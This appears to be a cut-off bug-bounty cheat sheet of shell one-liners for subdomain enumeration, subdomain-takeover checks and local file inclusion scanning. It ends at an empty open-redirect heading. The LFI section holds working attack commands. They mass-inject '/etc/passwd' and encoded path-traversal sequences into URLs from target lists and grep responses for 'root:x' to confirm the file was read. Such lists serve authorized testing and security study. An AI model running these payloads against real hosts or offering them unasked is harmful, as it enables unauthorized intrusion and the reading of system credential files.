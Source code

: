 **from HackerTarget**

```
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"

```

**from AlienVault**

```
curl -s "https://otx.alienvault.com/api/v1/indicators/domain/tesla.com/url_list?limit=100&page=1" | grep -o '"hostname": *"[^"]*' | sed 's/"hostname": "//' | sort -u

```

***SubDomain Bruteforcing - ffuf***

```
ffuf -u https://FUZZ.target.com -w dns.txt -v | grep "| URL |" | awk '{print $4}'

```

---

## **Subdomain Takeover:**

```
cat subs.txt | xargs  -P 50 -I % bash -c "dig % | grep CNAME" | awk '{print $1}' | sed 's/.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe

```

---

## **LFI:**

```
cat hosts | gau |  gf lfi |  httpx  -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -mc 200 -mr "root:[x*]:0:0:"

```

```
waybackurls target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

```

```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n";done

```

---

## **Open Redirect:**
